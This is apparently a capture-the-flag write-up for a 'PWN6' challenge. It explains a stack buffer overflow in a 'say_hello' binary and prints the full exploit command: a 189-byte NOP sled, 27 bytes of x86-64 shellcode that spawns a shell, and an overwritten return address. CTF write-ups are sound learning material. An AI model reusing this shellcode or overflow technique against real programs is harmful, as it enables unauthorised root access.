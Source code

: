 # This writeup if from the GiraffeCTF which was called "PWN6".
 This task was quiet easy as finding where the intruction pointer was overwritten. The instruction pointer was hit at offset
216 bytes.
> ./say_hello $(python -c 'print "\x90"*216')
## After debugging i found where the start of the nopsled was in memory, i quickly looked a shellcode to use which spawns root.
The shellcode was 27 bytes. I calculated how much i had to cut the nopsled down i had to go by doing 216-27 which turned to 189 bytes.
## Now, Nopshell + shellcode + eip and the input looked like this:
> ./say_hello $(python -c 'print "\x90"*189+"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+"\x70\xed\xff\xff\xff\x7f"')

Executing it allowed me to open a file as root which contained the flag being
> "FLAG{WhoKilledUncleBen?}"
## Thanks for reading.
